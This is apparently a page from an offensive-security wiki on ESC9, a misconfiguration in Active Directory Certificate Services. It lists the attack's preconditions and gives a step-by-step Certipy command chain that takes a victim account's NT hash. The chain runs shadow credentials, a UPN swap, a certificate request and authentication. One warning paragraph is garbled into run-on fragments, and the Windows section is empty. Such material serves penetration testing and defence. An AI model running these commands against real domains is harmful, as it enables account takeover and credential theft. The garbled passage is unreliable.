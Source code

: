 Here are the requirements to perform ESC9:

* `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
* The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* The template specifies client authentication
* `GenericWrite` right against any account A to compromise any account B

> [!WARNING]
> Acate can then be used with to obtain a TGT and authenticat the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` or the `CertificateMappingMethods` values. It is worth to try the attack hopping the keys are misconfigured.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC9 scenario.

In this scenario, user1 has `GenericWrite` against user2 and wants to compromise user3. user2 is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of user2 is changed to user3.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```

The vulnerable certificate can be requested as user2.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

The user2's UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

=== Windows
